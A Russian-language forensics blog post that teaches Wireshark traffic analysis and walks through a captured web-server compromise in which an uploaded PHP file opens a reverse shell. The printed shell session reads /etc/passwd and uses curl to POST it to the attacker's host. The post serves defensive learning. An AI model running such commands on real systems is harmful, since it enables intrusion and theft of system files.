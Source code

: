 ```yaml
---
title: "Инструкция по тому, как попасть в сети"
description: ""
date: 2024-03-11
summary: "А что, если обратной дороги нет?"

series: ["Погружение в forensics"]
series_order: 1

tags: ["forensics"]
showAuthor: true
authors:
  - "exc3pti0n"
---
```


Что делать со скомпрометированными системами мы разобрались. Но что, если данных на диске недостаточно для криминалистического расследования? 
Например,  мы замечаем резкую нагрузку на сеть или обнаруживаем перенаправление на какие-то левые IP-адреса. Чтобы разобраться в подозрительных вещах, мы обращаемся к анализу сетевой активности, и в этом нам помогают так называемые "снифферы" - эти инструменты устанавливают наш сетевой адаптер в определенный режим, который позволяет принимать все пакеты в эфире, вне зависимости от того, предназначаются ли они для нашего устройства или нет. 

Терпеливо выслушав жалобы заказчика, форензик собирает трафик, получает файлик с дампом и идет смотреть, что же там произошло.

## Что нужно знать, чтобы не грепать по "CTF{"

Для анализа форензик имеет у себя в арсенале хотя бы один инструмент для анализа дампов трафика. Пожалуй, самым популярным сниффером, с которым можно столкнуться, является [Wireshark](https://www.wireshark.org/download.html). Для того, чтобы начать работать с этим инструментом, малыш должен знать некоторые вещи, которые будут полезны при анализе трафика.

### Буйство красок: какой цвет к чему?

Для удобства в Wireshark предусмотрено цветное представление пакетов и протоколов.

![](img/one.png)

*Дефолтное представление цветов можно посмотреть в разделе* `View` -> `Coloring Rules..`.

1. **Красным цветом** помечаются пакеты с ошибками в передаче данных. Например, в контексте сетевых атак они могут быть интересны как подозрение на DDoS, так что к ним стоит присмотреться.
2. **Черным цветом** помечаются пакеты, которые повреждены на этапе захвата или захвачены не полностью.
3. **Темно-зеленым цветом** помечаются пакеты, которые вызывают предупреждения или ошибки, но не являются критическими.
4. **Зеленым цветом** помечаются пакеты с данными или запросами, которые успешно переданы и обработаны. Обычно в них и лежит все самое интересное.

### Фильтрация или Что полезно для базового анализа

Чтобы ускорить скрупулезный анализ PCAP, форензику приходится прибегать к использованию фильтров. Здесь будут перечислены те, с которыми малыш будет сталкиваться чаще всего:

- `http.request` - отображение HTTP-запросов: полезно в контексте понимания того, какой хост за чем обращался к другому - загрузка файлов, страниц или внедрение вредоносных запросов.
- `ip.src eq <IP-address>` и `ip.dst eq <IP-address>` - если нам интересно посмотреть на активность с конкретного подозрительного IP - какие запросы отправлялись и принимались данным хостом.
- `tcp.port eq <port>` - если надо просмотреть, какие пакеты отсылались на интересующий порт.
- `http` и `!arp` - разумеется, фильтрация по интересующим протоколам.

Также в инструменте присутствует некий синтаксис, а-ля логические операции, которые позволяют эффективно применять фильтры. Малыш может использовать `and` или `or` для объединения условий, применять `==` или `!=` для равенства условию или использовать `<=` и `>=` для проверки длины пакетов `frame.len`, если ему это понадобится. 

### Функционал, который нам очень пригодится

Когда форензик получает на руки интересный PCAP, он осматривается - какие пакеты летали по сети, каких больше всего, что может быть интересного. Для этого он заглядывает в `Statistics` -> `Protocol Hierarchy` и смотрит на статистику:

![](img/two.png)

Также полезно узнать, с каких хостов отправлялись пакеты, и кого мы поймали во время сбора трафика. Для этого следует перейти на вкладку `Statistics` -> `Endpoint`.

![](img/three.png)

Осмотревшись, форензик ищет интересные запросы и смотрит внутрь пакета: есть ли там что-то, за что можно зацепиться глазу? 

![](img/four.png)

Если нашел любопытную информацию, надо посмотреть на поток пакетов - для этого следует нажать ПКМ на интересующий пакет, и выбрать нужный поток: `Follow` -> `HTTP Stream`. В процессе наблюдения можно обнаружить такую картину:

![](img/five.png)

Конечно, хочется копнуть поглубже, и достать что-то более весомое, например, подозрительные файлы. Тогда надо заглянуть  в `File` -> `Export Objects` и выбрать нужный протокол, например, `HTTP..`.

![](img/six.png)

Это базовые вещи, которые могу пригодиться малышу для анализа трафика.

## Не словом, а делом: смотрим на фрагмент атаки и думаем, что произошло

*Команда разработчиков жалуется, что на веб-сервере оказался какой-то файл, которого раньше не было, да еще и шумит в сети... Надо разобраться.*

Для начала просмотрим иерархию протоколов:

![](img/seven_one.png)

Кажется, нам следует обратить внимание на HTTP. Просмотрим,  каких хостов отправлялись пакеты:

![](img/seven.png)

Как оказывается, мы наблюдаем взаимодействие только двух хостов. 
Проанализируем кусочек трафика и придем к выводу, что запросы на веб-сервер прилетают с IP-адреса `117.11.88.124`.

![](img/eight.png)

В данной ситуации, файл мог быть отправлен с этого IP-адреса. Предположим это, и отфильтруем данные следующим образом: `http and ip.src== 117.11.88.124`

![](img/nine.png)

Первое, что нас может смутить - POST-запрос на страницу upload.php на веб-сервер, можно предположить, что это запрос на загрузку файла. Заглянем в поток, чтобы посмотреть содержимое пакета.

![](img/ten.png)

И по итогу наблюдаем создание обратной оболочки на хост `117.11.88.124:8080`.
После того, как мы узнали, что `image.jpg.php` является вредоносным файлом, следует посмотреть, какая активность была зафиксирована после запуска этого файла. Для этого находим подходящий запрос: 

![](img/eleven.png)

И анализируем поток, который следует после этого запуска:

```
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov 2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<DELETED>
...
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 368 100 357 100 11 56774 17[393 bytes missing in capture file].$
```

Наблюдаем удаленное выполнение команд и попытку стащить файл `passwd`.

## Куда стоит полезть еще?

- [Wireshark — подробное руководство по началу использования](https://habr.com/ru/articles/735866/) - полезная статья для тех, кто хочет прощупать инструмент.
- [malware-traffic-analysis.net](https://www.malware-traffic-analysis.net/index.html) - мастхев для тех, кому всегда мало: здесь лежат небольшие отчеты по анализу, туториал от автора ресурса, а также куча дампов, собранных с вредоносной активности реальной малвари.
- [Cyberdefenders.org](https://cyberdefenders.org/) - здесь, помимо прочих блутим-кейсов, лежит и категория Network Forensic, из которой можно выудить интересные PCAP для анализа и практики - идеально для малышей. Задачки с интересными атаками, которые я советую порешать: [PoisonedCredentials](https://cyberdefenders.org/blueteam-ctf-challenges/poisonedcredentials/), [OpenWire](https://cyberdefenders.org/blueteam-ctf-challenges/openwire/), [PsExec Hunt](https://cyberdefenders.org/blueteam-ctf-challenges/psexec-hunt/) (кстати, на первые два я писала подробные райтапы с объяснением атак, можно посмотреть [здесь](https://habr.com/ru/articles/775414/) и [здесь](https://habr.com/ru/articles/784908/))

На этом все. И не забывай, что всегда надо лезть туда, куда не просят)

![](img/lastpic.png)
